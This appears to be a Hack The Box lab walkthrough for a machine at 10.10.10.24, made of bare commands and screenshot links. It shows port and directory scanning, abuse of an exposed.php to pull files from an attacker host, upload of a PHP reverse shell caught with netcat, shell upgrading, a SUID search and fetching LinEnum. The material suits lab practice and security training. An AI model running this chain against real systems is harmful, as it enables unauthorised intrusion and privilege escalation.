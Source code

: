 ![image](https://github.com/regarmulia/HTB/assets/33616880/55d9649e-1925-4ff6-a308-f6f0d024e1c4)
```
/exposed.php
php-reverse-shell
10.10.10.24/uploads/shell2.php
LinEnum.sh
screen 4.5.0
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.10.24
```
![image](https://github.com/regarmulia/HTB/assets/33616880/46735d62-2827-4576-966f-4259541ac585)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.24/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f6e89b74-85df-466e-bd99-5779c782bc3e)


```
http://10.10.10.24/exposed.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/835a805c-0ea0-46dd-a17b-da4fad050cd3)


```
http://10.10.14.3/lala.txt -o uploads/lala.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fad0f92d-e6ca-4f6d-8abb-e4c2355198e6)


```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
diff -u php-reverse-shell.php shell.php
```
![image](https://user-images.githubusercontent.com/33616880/232672632-55eefa42-eeca-4a5d-8c7c-78a35e18a674.png)


```
http://10.10.14.3/php-reverse-shell.php -o uploads/php-reverse-shell.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6f90ae46-7da7-4b79-a535-23ff44c610eb)


```
nc -nlvp 1234
http://10.10.10.24/uploads/php-reverse-shell.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/edb8a437-2dc8-44b4-b5b6-6b05fbc7fefe)


```
python3 -c "import pty;pty.spawn('/bin/bash’)
find / -perm -4000 2>/dev/null
```
![image](https://github.com/regarmulia/HTB/assets/33616880/14ee2274-fa4e-4a6d-a371-56f5584faf65)


```
OR
python3 -m http.server 80
wget 10.10.14.2/LinEnum.sh
```
![image](https://user-images.githubusercontent.com/33616880/232672837-a43f9b03-ecb6-4c16-8966-9c8493c37512.png)
![image](https://user-images.githubusercontent.com/33616880/232672832-8c3e1108-d6fe-40e7-b4f0-84dce04e3aea.png)


![image](https://user-images.githubusercontent.com/33616880/232672860-72151f75-c0e3-46f7-ba0c-22f08b39ec86.png)
